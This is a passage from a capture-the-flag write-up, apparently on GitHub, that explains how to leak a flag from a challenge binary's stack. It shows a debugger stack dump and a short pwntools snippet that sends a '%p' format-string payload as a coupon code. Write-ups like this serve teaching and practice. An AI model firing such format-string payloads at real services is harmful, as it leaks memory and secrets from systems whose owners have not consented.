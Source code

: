 Now we just choose the second option `Upgrade Pack` after we have succeeded the stage 2 and run until the flag is read to see how the flag is stored on stack (remember to create fake flag to test):

```
0x00007ffebbd18650│+0x0000: 0x0000555c0a0092a0  →  0x00000000fbad2488	 ← $rsp
0x00007ffebbd18658│+0x0008: 0x00007ffebbd18714  →  0x6675aa0000000002
0x00007ffebbd18660│+0x0010: "This_Is_Fake_FlagXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX[...]"	 ← $rax, $r8
0x00007ffebbd18668│+0x0018: "Fake_FlagXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX[...]"
0x00007ffebbd18670│+0x0020: "gXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX[...]"
0x00007ffebbd18678│+0x0028: "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX[...]"
0x00007ffebbd18680│+0x0030: "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX[...]"
0x00007ffebbd18688│+0x0038: "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX[...]"
```

We can see that flag is written on stack very close to rsp. So we just simply use **format string** of option 1 to leak the flag:

```
p.sendlineafter(b'2) Upgrade Pack', b'2')
payload = b'%p'*20
p.sendlineafter(b'Enter coupon code:', payload)
```

I had tested with `%s` but not successful so I use `%p` instead. Run until now and we can get the local flag:

![get_local_flag.png](images/get_local_flag.png)

So now just run on server and we get the flag in hex, just recover it and we get the flag.

Full code: [solve.py](solve.py)

# 4. Get flag

![get_flag.png](images/get_flag.png)

I wrote this scrip to convert flag in hex format to text as below:

<details><summary>Convert.py</summary></details>

![get_flag2.png](images/get_flag2.png)

Flag is `p_ctf{W3ll_1t_W4s_3aSy_0n1y}`